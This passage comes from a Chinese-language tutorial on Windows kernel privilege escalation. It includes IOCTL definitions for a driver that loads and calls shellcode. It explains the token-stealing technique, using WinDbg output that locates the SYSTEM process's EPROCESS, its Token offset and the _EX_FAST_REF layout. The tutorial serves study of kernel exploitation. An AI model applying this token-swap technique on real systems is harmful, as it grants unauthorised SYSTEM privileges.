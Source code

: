 ```c++
            FILE_WRITE_DATA \
       )
// 调用shellcode
#define IOCTL_kscldr_callsc \
    CTL_CODE( \
            FILE_DEVICE_UNKNOWN, \
            KSCLDR_FUNCTION_CALL, \
            METHOD_BUFFERED, \
            FILE_EXECUTE \
       )

```

至于其他的双机调试环境和此工具的使用方法就不再细说了，可以查看其他的windows内核调试教程。

## 方法一：Token窃取

token窃取是windows内核提权最常用的办法，其核心的原理是用`system`进程中的token替换当前漏洞利用进程的token，实现身份伪造。运行中的Windows进程所关联的用户帐户和访问权限由一个叫做令牌（token）的内核对象仲裁。用于跟踪各种特定进程数据的内核数据结构包含了一个指向token的指针。当进程试图去执行各种操作时，比如打开一个文件，token中的账户权限会用于和所需的权限进行比较，以此决定该操作是否可行。

因为token指针只是内核内存中的数据，对于在内核模式中执行的代码来说，将其更改为指向不同的token以赋予该进程一个不同的权限集，这是非常容易的事情。接下来我们就先用windbg进行效果演示，将普通用户权限的`cmd.exe` 进程修改为`system` 权限。

### 使用windbg修改提权

首先先获取`system`进程的`EPROCESS`地址：

```c
0: kd> !process 0 0 system 
PROCESS ffffa98848069080
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 001ad002  ObjectTable: ffffcc077de05d40  HandleCount: 2486.
    Image: System
```

下面查看`EPROCESS`的数据：

```c
0: kd> dt _EPROCESS  ffffa98848069080  
ntdll!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2e0 ProcessLock      : _EX_PUSH_LOCK
   ..... 
   +0x358 ExceptionPortState : 0y000
   +0x360 Token            : _EX_FAST_REF
   +0x368 MmReserved       : 0
```

可以看到`Token`是一个`_EX_FAST_REF`结构，这是windows，它依赖于一种假定，在16字节的边界上需要将内核数据结构对齐到内存中。这意味着一个指向token或其他任何内核对象的指针最低的4个位永远都是0（十六进制就是最后一个数永远为0）。Windows因此可以自由的使用该指针的低4位用于其他目的（在本例中为可用于内部优化的引用计数)。

```c++
0: kd> dt _EX_FAST_REF
ntdll!_EX_FAST_REF
   +0x000 Object           : Ptr64 Void
   +0x000 RefCnt           : Pos 0, 4 Bits
   +0x000 Value            : Uint8B
```
